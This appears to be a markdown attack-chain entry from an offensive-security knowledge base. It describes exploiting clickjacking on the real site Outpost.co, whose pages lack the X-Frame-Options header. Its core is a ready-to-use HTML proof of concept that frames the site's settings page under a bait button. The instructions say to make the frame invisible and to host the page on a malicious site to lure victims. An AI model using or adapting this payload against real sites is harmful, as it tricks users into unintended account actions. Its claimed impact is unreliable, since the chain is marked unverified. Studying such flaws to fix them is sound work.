

# Clickjacking Exploitation on Outpost.co via Missing X-Frame-Options Header

Multi-stage attack chain demonstrating a complete attack workflow exploiting clickjacking on the Outpost.co web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- Text editor for HTML

### Target Environment

- Web platform
- Access to Outpost.co site (e.g., https://app.outpost.co/settings/preferences)
- No special services/ports required beyond standard HTTP/HTTPS

### Initial Access Requirements

- Public access to the target website
- No credentials needed for PoC creation, but authenticated session may be needed for impact demonstration
- Local machine for hosting/running the PoC HTML

## Detailed Attack Procedures

### Step 1: Create Clickjacking PoC
procedure: [[procedures/Create-Clickjacking-Proof-of-Concept-HTML]]

**Objective**: Build an HTML file that embeds the vulnerable Outpost.co page in an invisible iframe to overlay malicious elements, enabling click hijacking.

**Instructions**: Use a text editor to create an HTML file with an iframe sourcing the target URL. Set the iframe to be transparent and positioned to capture clicks on overlaid elements. Example structure:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking PoC</title>
    <style>
        iframe { position: absolute; top: 0; left: 0; opacity: 0.5; width: 500px; height: 500px; }
        .bait { position: absolute; top: 100px; left: 100px; z-index: 1; width: 100px; height: 50px; background: red; }
    </style>
</head>
<body>
    <div class="bait">Click here to win!</div>
    <iframe src="https://app.outpost.co/settings/preferences" sandbox="allow-top-navigation allow-same-origin allow-scripts" width="500" height="500"></iframe>
</body>
</html>
```

Adjust opacity to 0 for invisibility in a real attack. The sandbox attributes allow necessary interactions like navigation and scripts.

**Expected Output**: A functional HTML file ready to load in a browser.

**Success Indicators**:
- Iframe loads the target page without framing restrictions
- Overlaid element captures clicks intended for the iframe content

### Step 2: Load and Execute Clickjacking Attack
procedure: [[procedures/Create-Clickjacking-Proof-of-Concept-HTML]]

**Objective**: Render the PoC in a browser to simulate tricking a user into performing actions on the embedded site, such as adding arbitrary tasks via unintended clicks.

**Instructions**: Save the HTML as 'hack.html' and open it in a web browser. Observe how clicks on the bait element translate to actions in the invisible iframe, like submitting forms on the Outpost.co settings page. In a real scenario, host this on a malicious site to lure victims.

**Expected Output**: Browser renders the page with the iframe embedded; clicks on overlaid areas trigger actions on the target site.

**Success Indicators**:
- Target page embeds without X-Frame-Options blocking
- User clicks result in unintended site actions (e.g., task creation)
- No browser warnings about framing

## Attack Chain Summary

### Key Achievements

1. Successfully embedded vulnerable Outpost.co pages in external iframes
2. Demonstrated user trickery into actions like adding tasks via click hijacking
3. Highlighted impact on user confidentiality and interaction integrity

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
